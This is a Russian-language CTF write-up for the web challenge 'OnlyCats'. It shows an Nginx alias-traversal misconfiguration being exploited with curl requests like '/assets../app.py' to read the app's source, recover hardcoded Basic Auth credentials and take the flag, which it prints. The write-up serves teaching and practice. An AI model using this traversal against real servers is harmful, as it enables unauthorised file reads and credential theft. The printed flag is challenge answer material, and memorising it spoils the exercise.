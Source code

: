 # OnlyCats

## Описание:


| Название | Сложность | Автор |
|------|------------|--------|
| OnlyCats | Easy |[@collapsz](https://github.com/collapsz17) |

## TLDR

Утечка данных авторизации через **Nginx alias traversal**

---
## Решение:

На веб интерфейсе не самое богатое на функционал приложение:

![изображение](https://github.com/user-attachments/assets/e38d2519-1891-4850-98a6-463573a630b9)

`dirsearch` покажет имеющиеся директории:

![изображение](https://github.com/user-attachments/assets/fb52b39f-9aef-4214-9ea7-bc4b10c91568)

`whatweb` – стек используемых технологий: 

![изображение](https://github.com/user-attachments/assets/19c0a3ce-6423-46f5-816a-5f0310a6d6cb)

Примечательно, что приложение развернуто на `nginx`. Немного погуглив, можно выйти на данный [материал](https://habr.com/ru/articles/745718/)

И в самом деле запрос вида 
```
curl http://192.168.0.102:81/assets/cat.jpg | head -n 10
```

Выведет нам то же самое, что и

```
curl http://192.168.0.102:81/assetscat.jpg | head -n 10
```

![изображение](https://github.com/user-attachments/assets/bc89b5e0-d4ab-451e-ad67-b6e05d08239b)

Таким образом находим на сервере мискофигурацию в nginx alias. Посмотрим что там еще найдется:

```
dirsearch http://192.168.0.102:81/assets../
```
![изображение](https://github.com/user-attachments/assets/922e47f0-460b-4bdc-bc52-0d0b9b685621)

app.py содержит в себе весь исходный код приложения, включая креды для Basic Auth:
```
curl 192.168.0.102:81/assets../app.py                                                                                                                               ─╯
from flask import Flask, request, jsonify, render_template
from flask_basicauth import BasicAuth

from os import getenv

app = Flask(__name__)

app.config['BASIC_AUTH_USERNAME'] = 'cat' 
app.config['BASIC_AUTH_PASSWORD'] = 'icr34t3d0nlyc4tsjustt0sh4res0m3c4tp1ctur3s'  
basic_auth = BasicAuth(app)


@app.route('/')
def hello():
    return render_template('index.html')


@app.route('/admin', methods=['GET', 'POST'])
@basic_auth.required
def admin():
    flag = getenv('FLAG')  
    return render_template('admin.html', flag = flag)

if __name__ == '__main__':
    app.run(host='0.0.0.0', port=5000)
```

Авторизуемся на /admin c этими кредами, забираем флаг
## Flag:
rdg{af4cf13151aee7af4aa26b9bb817a079}
